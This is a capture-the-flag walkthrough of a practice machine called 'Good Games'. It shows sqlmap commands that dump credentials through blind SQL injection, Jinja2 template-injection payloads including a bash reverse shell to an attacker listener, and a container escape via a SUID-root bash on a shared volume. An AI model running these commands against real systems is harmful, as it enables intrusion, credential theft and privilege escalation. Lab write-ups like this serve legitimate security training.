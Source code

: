 ```yaml
---
title: Good Games
date: 2025-04-20
tags: [easy, windows]
---
```



### Task 1

Submit User Flag

We use nmap to find the services on the target machine and we see that an apache server runs on port 80.

``nmap -sV target_ip``

![alt text](image-g.png)

Navigating to the browser we see a login page where we will try bypassing the authentication using SQL injection.

Server-Side Template Injection (SSTI) vulnerability arises when an application incorporates user-supplied input directly into its server-side templates without proper sanitization or validation. Template engines, which combine templates with dynamic data to generate web pages, can be exploited through SSTI attacks.


To find forms that are candidates for sql injection run

``sqlmap -u "http://10.129.51.14/" --forms --crawl=2 --dbms=mysql``

--crawl=CRAWLDEPTH: crawls the website starting from the target url

We find a total of 8 targets. One of the identified forms is the login form and sqlmap auto-filled blank fields, tried multiple techniques and identified that the email field is vulnerable to time-based blind SQL injection.

![alt text](image-g-3.png)

![alt text](image-g-5.png)

After confirming the vulnerability we want to enumerate the database and find the table storing the usernames and passwords to get the user flag.

We can try running the following command to retrieve the databse names.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123" --dbs``

We found 2 available databases named information_schema and main.

Next, we will list the tables from each.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D <database_name> --tables``

Starting with the database named main, we find 3 tables blog, blog_comments and user and which we can further investigate.
We start with the table user.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user --columns``

There, we find 4 columns in total with a column named email and a column name password that might get us the flags we need.

![alt text](image-g-9.png)

We then run the following command to retreive that information.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user -C email,password --dump``

We find the email and the password and with those credentials we login after we use a hash cracker to find the plain texts password from the hashed one.

Now that we are logged in as admin, we can see a gear on the top right that redirects as to internal-administration.goodgames.htb. We need to edit the /etc/hosts file to point this domain to the target machine's IP.
Note, editing the hosts file requires administrative privileges.

<!--truncate--> 

Following the url, we see a login page:
![alt text](image-g-10.png)

There we reuse the credentials that we found on the previous step, where admin is the username. 
We are presented with a dashborad for the admin.

![alt text](image-g-11.png)

After we are in we attempt to find a palce where sql injection is possible. Navigating to the settings page,
we see the general information where we can try sql injection on the field of the full name.
We try the usual test of ' OR 1=1 --- and we see this renders as the full name. We then try \{{1+1}} for Jinja2 (Python) and we see this results to two, 
so we confirm SSTI (Server Side Template Injection) which can lead to an RCE.
Now we can go on with jinja2 exploitation. 

First we open a port locally:

``nc -lvnp 4343``

Different ways using some python libraries to exploit including:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

Or in the shotest versions:
```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

We used 
``{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<local_ip>/<exposed_port> 0>&1"').read() }}``

We now got the root control of the server

![alt text](image-g-13.png)

We can then navigate to /home/augustus where we find the user.text, in which the user flag is user flag is located.

### Task 2

But since we are already a root user but not finding any root.txt under the /root directory, we might be inside a container.

We can invistigate the cgroup file under the proc folder that contains all processes.

![alt text](image-g-15.png)

From this file, we understand that we are inside a docker container. So, we need to access the host from the container which is known as container escape or breakout.

One way of container gaining access to host file systems, is if they areconfigured to run with the SYS_ADMIN capability which allows
containers to perform actions through the linux kernel that would be available only to root users on a linux server.

capa=`cat /proc/1/status | grep -i 'CapEff' | awk '{print $2}'`; capsh --decode=$capa


grep CapEff /proc/$$/status

CapEff this set represents all the capabilities the process is using at a specific moment in time. 
Then we need to decode the permitted capcbility using capsh.

``capsh -- decode=xxxxxx00000000a80425fb``

![alt text](image-g-16.png)

After decoding, we see that the cap_sys_admin capability is not there, so we cannot use this to escape the container.

We then can try ssh to the host machine using the username augustus and the password we had before found for the admin
``ssh augustus@172.19.0.1``

And it works! 

Since the container mounts /home/augustus from the host anything the container writes in this directory, is also visible on the host and vice versa.

Having said that we can follow the next steps to create a SUID-root bash binary on the host via a shared volume.
While in the host we copy the /bin/bash to the current dirrectory ``cp /bin/bash .``.
Then inside the container we can:

```
chown root:root /home/augustus/bash
chmod 4777 /home/augustus/bash
```

Now going back to host, we run ``./bash -p`` to get a root shell and finally get the root flag.

![alt text](image-g-18.png)

What is blind SQL injection?


Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
Many techniques as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the inkected query within the application's responses.


